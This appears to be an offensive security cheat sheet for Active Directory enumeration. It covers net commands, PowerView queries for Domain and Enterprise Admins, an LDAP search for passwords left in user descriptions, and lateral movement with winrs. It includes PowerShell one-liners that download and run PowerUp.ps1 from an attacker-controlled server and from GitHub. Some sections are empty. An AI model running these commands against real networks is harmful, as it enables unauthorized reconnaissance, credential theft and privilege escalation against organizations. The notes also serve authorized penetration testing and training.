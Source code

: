 # Active Directory

## Enumeration

### Basic Enumeration

*All from Powershell*

- Local user `net user`
- List local admins `net localgroup Administrators`
- List all domain user `net user /domain`
- List all domain groups `net gourp /domain`
- List users in Domain Admin group `net group "Domain Admins" /domain`
- Domain and DC `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`
- DC hostname `cmd.exe /c "echo %logonserver%"`

### PowerView.ps1
#### Download PowerView.ps1
Link 

https://raw.githubusercontent.com/ZeroDayLab/PowerSploit/master/Recon/PowerView.ps1

Or

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

Download and run from attacker's machine

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks
```

Download and run from internet

```
powershell iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Invoke-AllChecks
```

Load PowerView `. ./PowerView.ps1`

#### Domain Controller

- `Get-DomainController`

#### Users

- Get all users `Get-DomainUser`
- Get all users usernames `Get-DomainUser | select -ExpandProperty samaccountname`
- Get users with highest number of logon `GetDomainUser -Properties samaccountname, logoncount`

**Search for users whose desrcription contains keywords**

Get local users

`Get-DomainUser -LDAPFilter "Description=*built*" | Select name, Description`

Get passwords in description

`Get-DomainUser -LDAPFilter "Description=*password*" | Select name, Description`

#### Computers

- List all computers `Get-DomainComputer | select -ExpandProperty dnshostname`

#### Groups

**AdminGroup**

- `Get-DomainGroup *admin* | select samaccountname`

**Domain Admins**

- Show details of Domain Admins group `Get-DomainGroup -Identity "Domain Admins" -Recurse`
- List members of Domain Admins gourp `Get-DomainGroupMember -Identity "Domain Admins" | select -ExpandProperty MemberName`

**Enterprise Admins**

- Show details of Enterprise Admins group `Get-DomainGroup -Identity "Enterprise Admins"`
- List members of Enterprise Admins gourp `Get-DomainGroupMember -Identity "Enterprise Admins" | select -ExpandProperty MemberName`

** Groups user belongs to **

- `Get-DomainGroup "username" | select name`

#### OUs
#### GPUs
### ADModule


## Find Where Current User Has Local Admin

### Find-PSRemotingLocalAdminAccess.ps1

- Where to find this script
- `. ./Find-PSRemotingLocalAdminAccess.ps1`
- `Find-PSRemotingLocalAdminAccess` Output will be list of machines where the current user has admin access

### Connect Using winrs
- CMD `winrs -r:machine01 cmd`

